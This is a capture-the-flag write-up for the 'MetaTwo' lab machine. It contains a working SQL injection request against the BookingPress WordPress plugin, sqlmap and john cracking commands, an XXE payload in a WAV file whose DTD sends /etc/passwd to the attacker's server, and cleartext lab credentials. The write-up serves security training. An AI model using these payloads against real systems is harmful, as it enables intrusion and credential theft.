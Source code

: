 # MetaTwo

## Enumeration

Start off with an nmap scan which looks like this : `nmap -Pn -sV -sC -v <IP>`

```vim
Nmap scan report for 10.129.67.13
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see here that FTP, SSH and HTTP ports are open. FTP port will require a username and password but since we don't have any, we have to look into the web application first.

Add `http://metapress.htb` to `/etc/hosts` file and we can start looking into the website.

First glance at the website shows us that the web application is based on WordPress. Running a GoBuster will reveal a lot of directories and files but the most important one is `wp-login.php`. However, we can't login into it with any bruteforcing or SQLi so we have to look into the website to see any other way.

Looking through the `/events` page, we note the following:
1. You are booking the timing and date for a particular event
2. You are making POST requests to `/wp-admin/admin-ajax.php`
3. There is something calling `bookingpress` that is involved in every action with the events
4. Looking into the page source, we see that `bookingpress` is a plugin that is used for booking things (almost like its in the name)
5. `WordPress` version is 5.6.2 and `bookingpress` version is 1.0.10

## Exploit

### Exploiting SQLi CVE

I start looking into vulnerabilities for WordPress first but I don't see anything that I can exploit. I then start looking into vulnerabilities for `bookingpress` instead. Looking into this, I come across the following CVE: `CVE-2022-0739`. This CVE allows for unauthenticated SQLi, which seems of interest even if unauthenticated.

I look for any repositories which have a POC that I can use to exploit and I come across the following repository: https://github.com/destr4ct/CVE-2022-0739

After reading through the exploit mentioned in the above repository, I come up with the following payload which we can use:

Tip: Look into any previous POST requests and keep note of your `_wpnonce` value and replace yours with mine in the below request. This is important to have in the exploit

```HTTP
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Origin: http://metapress.htb
DNT: 1
Connection: close
Referer: http://metapress.htb/events/
Cookie: wordpress_498b28797b9ccef61e19f54e27d9e6f4=manager%7C1667470314%7CtYAMZn76jwa37M5fEuOS6zcYv7RaL9bs4XQ9ZqegHse%7C62f0cf57beb8da34ad948c85d8bf184fd465f6be48445c2f03220c62efeff476; PHPSESSID=gndc2a5nhvl2e69q9a52fbb09i; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_498b28797b9ccef61e19f54e27d9e6f4=manager%7C1667470314%7CtYAMZn76jwa37M5fEuOS6zcYv7RaL9bs4XQ9ZqegHse%7Cc6fc90673bc9e570cab02ca39b32b3564a0d6365dfb57855c45e386a8955f41e; wp-settings-time-2=1667297514; wp-settings-2=mfold%3Do

action=bookingpress_front_get_category_services&_wpnonce=f7f1305701&category_id=1&total_service=2) UNION ALL SELECT @@VERSION,@@version_comment,@@version_compile_os,2,3,4,5,6,7 -- -
```

The reason I have so many cookies is probably because of me actually listing an event. You can do this with only the PHPSESSID as far as I am aware but since I have all these cookies set, I can't do a request without them.

I get a response back which looks like this:

```json
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$2.00","bookingpress_service_duration_val":"3","bookingpress_service_duration_unit":"4","bookingpress_service_description":"5","bookingpress_service_position":"6","bookingpress_servicedate_created":"7","service_price_without_currency":2,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```

Here, we can see that SQLi is possible and we have one of 2 roads to pick from here:
1. Manually doing SQLi
2. SQLmap dump and then sort through the tables

I picked the latter and copied the above HTTP request into a file called `temp.req` (Change out your SQLi payload for something like `1` so that SQLmap can function) and ran the following command:

```vim
sqlmap -r temp.req -p total_service --batch --dump
```
Your tables will probably be in `~/.local/share/sqlmap/output/metapress.htb/dump/blog`. Out of all these, wp_users.csv seems to be the most interesting.

This gives us 2 usernames and 2 password hashes. We can crack this by putting the hashes in a file (I called mine `hash`), and running the following command

```vim
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

The password for the manager account is `partylikearockstar` and the admin one is uncrackable probably. I tried logging in with these credentials on FTP but it seems like that doesn't work.

### Exploting Upload XXE CVE 

We try to log into `wp-login.php` with these credentials and that works. I tried looking around the admin portal but I didn't see anything that seemed of interest other than the media file uploads. I look if there is any vulnerability online regarding that and I come across the following CVE: CVE-2021-29447

I found the POC of it here: https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5

I made the following files with the following content:

1. payload.wav

Run the following for payload.wav (after changing in your IP and port from python server):

```vim
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.7:8000/xxe.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

2. xxe.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.7:8000/?p=%file;'>" >
```

And then started a http server with the following command: `python -m http.server 8000` and Upload the payload.wav file in `wp-admin/upload.php` (This is the media tab in the admin portal).

Check on your python server and you will see the base64 encoded file content for `/etc/passwd`. This reveals the `jnelson` user to us, however we don't have access to any ssh keys so we have to find some other pathway to exploit. 

Since we have LFI, we can try to read `wp-config.php` which usually contains sensitive information for the web application. I found the file in `../wp-config.php` (There is another way to find this which involves looking into the nginx server config, but I found this while reading through some other POCs). 

In `wp-config.php` we find the FTP credentials being `metapress.htb:9NYS_ii@FyL_p5M2NvJ`

After logging into FTP, we can see a blog file and a mailer file. I start looking at the mailer file first and find `send_email.php`, where we find the credentials for jnelson.

Start an ssh session with `ssh jnelson@metapress.htb` and enter the password. The user flag can be found in `user.txt`.

## Priv-Esc

Looking at the home directory, we see a `.passpie`. Passpie is a commandline password manager, which seems promising for a Priv-Esc. Looking into `.passpie` we come across `.keys` which holds a PGP private and public key. I immediately try to crack it while looking into any documentation of passpie to view whose passwords are on and if we can extract the passwords in cleartext.

To crack the PGP private key, first copy it to a file in your machine(I used privkey.pgp). Then run the following command:

```vim
gpg2john privkey.pgp > hash && john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

The password is `blink182`.

With passpie, you can see which passwords are on by simply running `passpie list`. I found out from the passpie documentation that you can export passwords with the command `passpie export <FILE>` and then reading the file. You have to use the password cracked above to be able to run the command.

We find out that the password for root is `p7qfAZt4_A1xo_0x`. We can login with `su` and entering the password. The root flag can be found in `/root/root.txt`
